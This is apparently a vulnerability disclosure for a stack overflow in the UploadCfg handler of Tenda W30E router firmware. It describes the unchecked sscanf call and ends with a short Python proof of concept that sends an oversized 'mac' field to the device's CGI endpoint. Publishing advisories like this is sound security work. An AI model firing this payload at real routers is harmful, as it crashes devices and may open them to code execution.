


# Tenda W30E UploadCfg
### Overview
vendor: Tenda

product: W30E

version: <= V16.01.0.19(5037)

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/648432375324741
### Vulnerability Description
Tenda W30E V16.01.0.19(5037) were discovered to contain a stack overflow in the UploadCfg function.
### Vulnerability details
Stack-based buffer overflow in function UploadCfg on Tenda W30E before V16.01.0.19(5037) devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function UploadCfg line 93, it reads in a user-provided parameter, and the variable v17 is passed to the _isoc99_sscanf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.




### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/cgi-bin/UploadCfg'
payload = {
    "mac": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
